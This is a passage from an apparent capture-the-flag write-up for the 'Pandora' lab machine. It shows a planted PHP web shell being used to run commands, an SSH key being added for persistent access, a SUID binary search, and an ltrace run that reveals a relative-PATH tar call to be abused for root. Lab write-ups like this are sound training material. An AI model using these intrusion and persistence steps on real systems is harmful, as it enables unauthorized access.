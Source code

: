 We can then access `http://127.0.0.1/pandora_console/images/simple-backdoor.php?cmd=id`
to run the `id` command on the box and get the expected result:
`uid=1000(matt) gid=1000(matt) groups=1000(matt)`

We create a `.ssh` folder in matt's home directory and put our SSH public key in
the `authorized_keys` file. We are now able to connect to the box as `matt` and
grab the user flag.

    :::text
    ssh matt@10.129.156.46
    matt@pandora:~$ cat user.txt
    0922da287177a016913cb69eb003c0d8

# Root

We start our enumeration and look for SUID binaries and found a binary called
`pandora_backup`.

    :::text
    matt@pandora:/$ find / -perm -4000 -type f -exec ls -la {} 2>/dev/null \;
    -rwsr-xr-x 1 root root 166056 Jan 19  2021 /usr/bin/sudo
    -rwsr-xr-x 1 root root 31032 May 26  2021 /usr/bin/pkexec
    -rwsr-xr-x 1 root root 85064 Jul 14  2021 /usr/bin/chfn
    -rwsr-xr-x 1 root root 44784 Jul 14  2021 /usr/bin/newgrp
    -rwsr-xr-x 1 root root 88464 Jul 14  2021 /usr/bin/gpasswd
    -rwsr-xr-x 1 root root 39144 Jul 21  2020 /usr/bin/umount
    -rwsr-x--- 1 root matt 16816 Dec  3 15:58 /usr/bin/pandora_backup
    -rwsr-xr-x 1 root root 68208 Jul 14  2021 /usr/bin/passwd
    -rwsr-xr-x 1 root root 55528 Jul 21  2020 /usr/bin/mount
    -rwsr-xr-x 1 root root 67816 Jul 21  2020 /usr/bin/su
    -rwsr-sr-x 1 daemon daemon 55560 Nov 12  2018 /usr/bin/at
    -rwsr-xr-x 1 root root 39144 Mar  7  2020 /usr/bin/fusermount
    -rwsr-xr-x 1 root root 53040 Jul 14  2021 /usr/bin/chsh

Looking at the calls from this binary, we can see that it call `tar` with a
relative PATH.

    :::text
    matt@pandora:/$ ltrace /usr/bin/pandora_backup
    getuid()                                                               = 1000
    geteuid()                                                              = 1000
    setreuid(1000, 1000)                                                   = 0
    puts("PandoraFMS Backup Utility"PandoraFMS Backup Utility
    )                                      = 26
    puts("Now attempting to backup Pandora"...Now attempting to backup PandoraFMS client
    )                            = 43
    system("tar -cvf /root/.backup/pandora-b"...tar: /root/.backup/pandora-backup.tar.gz: Cannot open: Permission denied
    tar: Error is not recoverable: exiting now
    <no return ...>
    --- SIGCHLD (Child exited) ---
    <... system resumed> )                                                 = 512
    puts("Backup failed!\nCheck your permis"...Backup failed!
    Check your permissions!
    )                           = 39
    +++ exited (status 1) +++
